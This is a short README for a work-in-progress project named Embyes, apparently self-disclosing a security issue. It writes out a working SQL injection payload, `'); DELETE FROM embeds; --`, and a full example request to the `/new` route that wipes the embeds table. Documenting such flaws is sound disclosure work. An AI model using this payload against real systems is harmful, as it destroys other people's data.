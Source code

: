 # Embyes

Work in progress...

## Issues

High Severity issue!!!

When calling `/new` route SQL Injection is possible

Need unique url that does not exist in db and change description to `'); query; --`

For example:

```sql
'); DELETE FROM embeds; --
```

`http://localhost:6969/new?url=uniqueurl&color=00ff00&title=title&description='); DELETE FROM embeds; --`

And all table data will be deleted.